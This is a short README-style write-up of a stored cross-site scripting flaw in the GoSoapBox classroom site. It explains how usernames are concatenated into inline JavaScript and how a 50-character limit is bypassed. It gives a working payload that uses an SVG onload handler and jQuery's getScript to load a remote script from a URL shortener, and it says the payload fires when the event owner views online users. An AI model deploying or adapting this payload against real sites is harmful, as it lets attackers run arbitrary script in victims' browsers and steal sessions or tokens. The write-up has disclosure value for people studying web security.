 # GoSoapBox XSS

Input in this site is rarely filtered, and on the rare occasions that it is, 
it's done poorly, and in a way that can be bypassed with minimal effort.

Just to get it out of the way, here is the actual XSS vector:
`";//<svg onload="$.getScript('//example.com/abcd')"/>`

where example.com/abcd stands for any url to a script file

To understand why this vector is used, first, some background understanding of GoSoapBox is needed.

1. GoSoapBox uses a Firebase DB to hold its information

Because of this, at the bottom of the page, there's a snippet of JS that looks like this:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "my name";
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

This js MUST be fully executed in order for the name to appear in the list of online users.

The problem is, any typical XSS vector would not show up in the list of online users,
since the given username is lazily concatenated into the javascript like so:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "<svg onload="alert(1)"></svg>"; // Syntax error
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

thus causing a syntax error.

Another problem, at least in Chrome, is that the browser automatically closes a script tag a closing script tag is found in its JS code. Because of this, the XSS vector:

`<script>alert(1)</script>`

is seen in the DOM like this:

```
<script>
	var user_id          = "u53r1dstr1ng";
	var user_name        = "<script>alert(1)
</script> <!-- Undoubtedly syntax error -->

";
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
</script>
```

thus causing a more horrifying syntax error.

The next restriction is that

2. GoSoapBox restricts names to 50 characters

This makes writing code directly into the XSS vector infeasible, and also makes most JS hosting sites useless as well, since their URLs are far too long.

So what is the solution? URL shorteners, of course!

Not just any URL shortener can be used, however. The shortener used must both use HTTPS and have a short enough url to fit in the small input box we are given.

I, in particular, opted to use snip.li as my url shortener, though any URL shortener can be used as long as it meets the criteria.

So, to create this XSS vector, we have the following restrictions:

- No `<script>` tags
- Must be JS friendly
- 50 char limit

In order to get around these challenges, I used the following facts:

- GoSoapBox has no SOP
- It also uses jQuery
- svg onload exists

So my solution ended up being quite simple:

`";//<svg onload="$.getScript('//snip.li/OwO')"/>`

- The `";//` comments out the XSS vector to prevent a syntax error
- The svg onload uses `$.getScript` to retrieve an external script
- The external script is retrieved via the shortened URL `snip.li/OwO`, which points to an example script that I made.

Now, when the event owner looks at the list of online users using the "See Who's Online" button, the javascript will execute.

At this point, any normal XSS attack can be performed using the online script.

Credits:

- My teacher, for using this site 800 million times
